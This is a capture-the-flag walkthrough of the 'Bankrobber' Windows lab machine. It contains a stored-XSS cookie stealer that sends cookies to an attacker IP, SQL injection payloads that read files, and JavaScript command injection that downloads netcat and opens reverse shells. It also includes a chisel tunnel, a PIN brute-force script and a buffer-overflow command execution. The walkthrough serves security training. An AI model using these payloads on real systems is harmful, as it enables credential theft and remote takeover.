

# Enumeration
```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: E-coin
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: -8h00m01s, deviation: 0s, median: -8h00m01s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-02-28T09:14:16
|_  start_date: 2024-02-28T09:08:44
```

Checking the certificate at https://10.10.10.154/

Nothing much so moving on
Checking the webiste:

Now trying to create a new user there was a msg field in the url but no cross-site scripting detected.
Looking at source code:

Here it is enclosed with html entities so it is safe.
Now trying to login to the account created:

So now trying to check XSS. 
Set the img source in comment box as:
``
Now start listening on port 80 on attacker:
`nc -lnvp 80` 
After a few minutes we get connection

Now checking the type of cookie:

It is base64 encoded

Now we can steal the admin cookies
Checking payloadallthethings
We find a cookie stealer;
`<script>document.location='http://10.10.14.22/?c='+btoa(document.cookie)</script>`
**Note** : btoa converts to base64 in case of any weird url encoding
That didn't work so trying one more:
``
**NOTE**: Do ctrl+U in burpsuite
This worked and we get the payload back
on listener (`python -m http.server 80`)

now decoding this cookie with base64:
`username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D; id=1`
Now decoding username and password with base64:
username : admin
password: Hopelessromantic


Has to be from localhost
Checking burpsuite:

backdoorchecker.php is checking.
We know that it is mysql from nmap so:

# SQL Injection (mysql)
NOTE: Fill the gaps with + in burpsuite

To check number of columns:
`1' ORDER BY 1--+ ` but in burpsuite: `1'+ORDER+BY+4--+`
We find that there are *3 columns*
Now checking in union is allowed:
`1' union select 1,2,3--+`
Now using smbmap to get passwords:
Save the search.req file from burpsuite
`sqlmap -r search.req --dbms mysql --technique=U --passwords`
or 
`10' UNION SELECT user,password,3 from mysql.user;-- -`
To get the password hash. (check https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
Couldn't crack the hash :(

Now trying to access the backdoorchecker.php from sql.
Checking access with:
`10'+UNION SELECT 1,load_file('c:/windows/system32/license.rtf'),3--+-`
Checking location with:
`10' UNION SELECT 1,@@datadir,3-- -`

Checking the backdoorchecker.php:
`10' UNION SELECT 1,LOAD_FILE('c:/xampp/htdocs/admin/backdoorchecker.php'),3-- -`
we get the code for the files:


Now we know the checks so writing a payload
```
var xhr = XMLHttpRequest()
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd dir | ping -n 1 10.10.14.22";
xhr.open("POST",url);
xhr.setRequestHeader('Content-Type','Applications/x-www-form-urlencoded');
xhr.withCredentials=True;
xhr.send(params)
```

Then using previously discovered XXS to send the payload:
`<script src=http://10.10.14.22/payload.js></script>`
No we get a ping with `sudo tcpdump -i tun0 icmp`

Now modifying the script:
```js
var request = new XMLHttpRequest();
var params = 'cmd=dir|powershell -c "iwr -uri 10.10.14.22/nc64.exe -outfile %temp%\\n.exe"; %temp%\\n.exe -e cmd.exe 10.10.14.22 9001';
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
request.send(params);)
```

Now we get a shell!

The local language is dutch
Now using our smb share:
`net use z: \\10.10.14.22\aditya`
We found bankv2.exe on port 910:
Now using chisel we can access the port:
- Attacker:
	`./chisel server --port 9003  --reverse`
- Target
	`.\chisel.exe client 10.10.14.22:9003 R:910:127.0.0.1:910`
Checking what the port is with netcat:
	`nc localhost 910`

To bruteforce the pin:
```python
from pwn import *
for i in range(0,9999):
	pin = str(i)
	code = pin.zfill(4)
	r = remote("localhost",910)
	r.recvuntil("[$] ")
	r.sendline(code)
	response = r.recvline()
	r.close()
	if b"Access denied" not in response:
		print(code)
```

code is 0021
Now trying to overflow the buffer:
`python3 -c 'print("A"*32)'`
It overflows at 32
Now using netcat shell:
Copy nc to the users/cortin folder

Then running `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAc:\users\cortin\n.exe 10.10.14.22 9007 -e cmd`

